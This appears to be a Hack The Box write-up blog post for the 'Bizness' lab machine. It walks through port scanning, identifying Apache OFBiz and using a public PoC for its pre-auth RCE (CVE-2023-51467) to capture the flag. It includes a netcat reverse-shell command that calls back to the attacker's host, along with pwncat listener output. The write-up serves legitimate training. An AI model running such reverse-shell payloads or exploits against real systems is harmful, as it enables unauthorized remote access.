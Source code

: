 ```yaml
---
layout: post
title: Bizness HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux]
image:
  path: /images/htb/easy/bizness/icon.png
---
```


Another easy linux box post CTF, let's get cracking!

**Machine created by:** [C4rm3l0](https://app.hackthebox.com/users/458049)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.129.255.102 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 18:45 AEDT
Nmap scan report for 10.129.255.102
Host is up (0.31s latency).
Not shown: 2497 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.129.255.102 bizness.htb
```

After that I visit [bizness.htb](https://bizness.htb) and see this:

![Front Page](/images/htb/easy/bizness/frontpage.png)

Nothing of particular interest...

`dirstalk` gives 0 results, maybe there's subdomains?

No subdomains from scanning with FFuF, until I notice something in the page footer: `Powered by Apache OFBiz`

Searching for `Apache OFBiz CVE` yields [CVE-2023-50968 (SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2023-50968) and [CVE-2023-51467 (Pre-Auth RCE)](https://nvd.nist.gov/vuln/detail/CVE-2023-51467).

Using a [PoC of the Pre-Auth RCE](https://github.com/JaneMandy/CVE-2023-51467-Exploit/releases/tag/Apache-Ofbiz), I set my URL to `https://bizness.htb/` then used `whoami` to find myself as `ofbiz`, and then using `cat /home/ofbiz/user.txt` to get the user flag.

User Flag: <mark>eff96303c752d6ac896258dd16aa422e</mark>

I setup a listener for a reverse shell:

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

Using the payload `nc 10.10.***.*** 4444 -e /bin/bash` with the `print ln to echo` mode triggered the reverse shell!

```
[19:05:59] 10.129.255.102:58820: normalizing shell path
[19:06:03] 10.129.255.102:58820: registered new host w/ db
[19:06:08] listener: 10.10.***.***:4444: linux session from 10.129.255.102:58820
           established
```





![Success](/images/htb/easy/bizness/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).